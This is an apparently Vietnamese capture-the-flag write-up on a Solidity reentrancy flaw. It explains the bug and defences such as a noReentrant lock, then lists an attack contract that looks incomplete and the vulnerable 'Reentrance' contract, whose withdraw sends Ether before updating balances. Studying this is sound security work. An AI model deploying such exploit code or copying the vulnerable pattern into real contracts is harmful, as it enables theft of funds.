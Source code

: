 ### Kết luận:
- Lỗ hổng: xuất phát từ việc gửi Ether trước khi cập nhật trạng thái nội bộ, cho phép attacker gọi lại hàm một cách lặp lại và rút hết tiền trong contract mục tiêu.
- Cách phòng tránh: có thể cập nhật trạng thái trước, sử dụng khóa nonReentrant, và hạn chế gas khi chuyển tiền.
- VD modifier noReentrant (có thể thêm require số dư mới của người dùng thì mới được chuyển tiếp).
```solidity
    bool private locked = false;
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true; // Đặt trạng thái khóa
        _;
        locked = false; // Xong hết logic func thì chuyển lại về trạng thái ban đầu.
    }

```
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
import './reentrance.sol';
pragma solidity ^0.8.0;
interface IReentrance{
    function balances(address) external returns (uint256);
    function donate(address _to) external payable;
    function balanceOf(address _who) external view returns(uint256 balance);
    function withdraw(uint256 _amount) external;
}
contract ReentranceAttack{
    IReentrance victim;
    constructor(address payable challenge){
        victim = IReentrance(challenge);
    } 
    function attack_1_donateandwithdraw() public { // Cause overflow
        victim.donate{value: 1}(address(this));
        victim.withdraw(1);
    }
    function attack_2_reWithdraw() public{
        victim.withdraw(1); // Goi lai ham de tiep tuc tan cong cho den khi contract can tien.
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
